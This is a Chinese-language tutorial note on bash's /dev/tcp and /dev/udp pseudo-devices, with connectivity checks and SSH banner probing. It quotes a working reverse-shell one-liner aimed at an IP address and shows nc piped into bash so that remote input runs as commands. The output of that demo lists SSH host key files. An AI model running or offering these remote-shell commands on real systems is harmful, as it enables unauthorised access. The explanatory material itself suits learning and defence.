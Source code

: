 # /dev/tpc/host/port 文件

> reverse shell
>
> ```
> bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
> ```
>
> 将stdin整合到stdout，然后将stdout 和 stderr 都从复制到`/dev/tcp/192.168.146.129`中。然后将stdin执行stdout对应的文件即`/dev/tcp/192.168.146.129`

虽然看起来像一个文件，但是实际并不存在。如果是一个合法的规则，bash(==这是bash特有的，所以zsh使用时会报错==)会尝试打开相关的tpc socket。同样的还有`/dev/udp/host/port`

我们在A使用nc监听10086端口，B创建文件主动连接

```
#A
root in /etc/ssh λ nc -lk -p 10086 | bash

#B
┌─────( root)─────(/etc) 
 └> $ echo "ls"  > /dev/tcp/8.135.0.171/10086

#A显示
root in /etc/ssh λ nc -lk -p 10086 | bash
moduli          sshd_config       ssh_host_dsa_key.pub    ssh_host_ed25519_key      ssh_host_rsa_key.pub
ssh_config      sshd_config.bak   ssh_host_ecdsa_key      ssh_host_ed25519_key.pub  ssh_import_id
ssh_config.bak  ssh_host_dsa_key  ssh_host_ecdsa_key.pub  ssh_host_rsa_key
```

也可以用来发送请求

```
┌─────( root)─────(/etc) 
 └> $ printf 'GET HTTP 1.1 /r/n'  > /dev/tcp/baidu.com/443

---

root in /opt λ tcpdump -i eth0 host baidu.com
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
18:21:03.819749 IP 192.168.80.200.55266 > 39.156.69.79.https: Flags [S], seq 1888363027, win 64240, options [mss 1460,sackOK,TS val 1940856432 ecr 0,nop,wscale 7], length 0
```

==结合timeout来测试连通性==

```
 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/443;echo $?
0

 ┌─────( root)─────(~) 
 └> $ timeout --preserve-status 1 echo > /dev/tcp/baidu.com/999;echo $?
bash: connect: Connection refused
bash: /dev/tcp/baidu.com/999: Connection refused
1
```

SSH版本探测

```
[root@8d3d229c-4aab-4812-96b9-37c8bc47a1d8 ~]#  cat  < /dev/tcp/8.135.0.171/22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
```


